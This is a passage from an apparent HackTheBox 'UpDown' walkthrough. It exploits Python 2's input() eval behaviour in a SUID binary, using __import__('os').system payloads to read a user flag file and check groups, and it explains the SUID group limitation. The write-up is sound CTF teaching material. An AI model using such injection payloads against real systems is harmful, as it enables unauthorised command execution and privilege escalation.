 If you have never seen one of those, it can be tricky, but if you are into CTFs and Jail scape, you have noticed that python2 input() function. It is vulnerable since input() in this version is the same as eval(raw_input())

So we can craft a payload to eval and get ourselves a developer shell:

```python
__import__('os').system('cat /home/developer/user.txt')
```

And we get permission denied:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/5_1_no.png" width="90%"/>
</p>


But why? That is because the flag is owned by root and can be read by group developer. Developer is in that group, but the SUID runs the program as the user, but not as the groups of that user.


```bash
drwx------ 2 developer developer 4096 Aug  2 09:15 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22 15:45 dev
-rw-r----- 1 root      developer   33 Sep 13 04:08 user.txt
```

Check what happens when calling the groups command. We are www-data:

```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('groups')
www-data
```

But the SUID make us developer, only as user.
